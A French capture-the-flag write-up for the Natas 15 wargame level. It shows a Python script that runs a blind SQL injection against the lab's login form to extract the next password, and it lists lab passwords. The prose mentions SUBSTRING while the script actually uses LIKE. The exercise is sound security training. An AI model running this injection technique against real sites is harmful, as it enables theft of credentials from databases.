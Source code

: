 username : natas15
password : SdqIqBsFcz3yotlNYErZSZwblkm0lrvx

- On arrive sur un formulaire avec du php et du SQL 
- On essaye l'injection classique : ```sql " OR "1"="1 ```
- Cela retourne This Users Exist.
- On va donc faire un script python pour faire de l'injection en SUBSTRING et BINARY 
```python 
import requests
import string

url = "http://natas15.natas.labs.overthewire.org/index.php"
auth = ('natas15', 'le_mot_de_passe_du_niveau_precedent')
chars = string.ascii_letters + string.digits

password = ""
while True:
    for char in chars:
        payload = f'natas16" AND BINARY password LIKE "{password}{char}%'
        data = {"username": payload}
        r = requests.post(url, auth=auth, data=data)
        if "This user exists" in r.text:
            password += char
            print(f"Password trouvé jusqu'à présent : {password}")
            break
    else:
        print(f"Mot de passe complet : {password}")
        break
```
- On test chaque caractères 1 par 1 pour construire notre mot de passe. Si le SUBSTRING(pasword,position,position) ne renvoie pas d'erreur alors on l'ajoute a notre variable password.
- A la fin du script on a le mot de passe.
-> Mot de Passe : **hPkjKYviLQctEW33QmuXL6eDVfMW4sGo**

